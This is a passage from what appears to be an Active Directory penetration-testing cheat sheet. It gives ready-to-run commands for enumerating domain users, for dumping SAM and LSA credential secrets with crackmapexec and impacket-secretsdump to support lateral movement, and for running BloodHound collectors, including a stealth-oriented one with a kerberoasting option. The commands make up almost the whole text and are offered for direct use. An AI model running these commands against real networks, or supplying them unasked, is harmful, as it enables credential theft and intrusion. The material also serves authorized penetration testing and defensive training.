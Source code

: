 ```bash
enumdomusers

# Enumerate Groups for a specific user:
net rpc user info USERNAME -U 'DOMAIN/USERNAME%PASSWORD' -S IP
```

Using admin credentials to gain additional credentials or information on lateral movement
```bash
# Dump the SAM
cme smb <target/subnet> -u User -p pass --sam

# Dump LSA Secrets
cme smb <target/subnet> -u User -p pass --lsa

impacket-secretsdump.py 'DOMAIN/USER:PASS@TargetIP'

# locally dump SAM
impacket-secretsdump.py 'DOMAIN/USER:PASS@TargetIP' -sam sam.sam -security security.security -system system.system LOCAL
```
### BloodHound
#### Collectors
To utilize BloodHound (BH) you first need to have a valid set of credentials and a way to collect (LDAP) domain information.

This is done using a varying set of tools called collectors. They will query the domain for information and put them into a json format that BH can interpret and display using Neo4j. 

#### SharpHound
This collector is the standard collector. It comes as both a PowerShell script and a Compiled C# binary.
```powershell
# Powershell Script
Import-Module SharpHound.ps1
Invoke-Bloodhound -CollectionMethod All

# Binary
.\SharpHound --CollectionMethods All
```

#### Bloodhound Python
This collector is great due to being able to collect from your attacking machine.
```bash
bloodhound-python -u 'User' -p 'Pass' -d domain.local -c all -zip -dc dc01.domain.local -ns 0.0.0.0
```

#### RustHound
```bash
rusthound -d domain.local -u 'USER@domain.local' -p 'Pass' -z
```

#### SilentHound
This tool enumerates LDAP and has OPSEC/Stealth in mind
```bash
silenthound.py -u 'User' -p 'pass' <ip> domain.local -g -n -k --kerberoast
```
